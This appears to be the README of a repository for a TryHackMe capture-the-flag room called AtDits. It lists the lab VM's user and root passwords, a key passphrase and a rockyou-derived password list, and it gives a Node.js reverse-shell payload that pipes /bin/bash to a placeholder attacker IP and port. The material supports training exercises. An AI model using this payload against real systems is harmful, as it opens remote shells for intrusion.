 # thm_atdits
This repository holds or links to all the files needed to complete or recreate the TryHackMe room [AtDits](https://tryhackme.com/jr/atdits).

## Login Data for the VM
>User: paul  
>Password: SicheresPasswort

>User: root  
>Password: IchMagZuege!

>[Private Key](VM-Key/id_rsa) Passphrase  
>felix1


## Injection params for netcat
```
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(<Socket You are listenning on>, "<Your-IP>", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
## Short password list

The short [password list](passwordlist/rockyou.txt) is a list of around 200 passwords from the rockyou.txt list.  
It holds also the passophrase for the private key.

## VM
The VM is a Ubuntu Server 20.04 Image.  
It is in the `.ova` format and can be directly uploaded to TryHackMe.

File: [VM.ova]()